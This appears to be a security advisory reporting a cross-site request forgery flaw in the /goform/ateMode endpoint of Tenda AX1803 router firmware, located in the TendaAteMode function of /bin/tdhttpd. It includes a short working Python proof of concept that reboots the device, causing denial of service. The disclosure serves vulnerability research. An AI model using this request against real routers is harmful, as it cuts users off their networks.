



Affect device: Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/ateMode` page which influences the lastest version of Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4 (https://www.tenda.com.cn/download/detail-3421.html)

The vulnerability exists in the file `/bin/tdhttpd` , function **TendaAteMode** .



It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
import requests

url = "http://192.168.23.133/goform/ateMode"

r = requests.get(url)

print(r.content)
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .





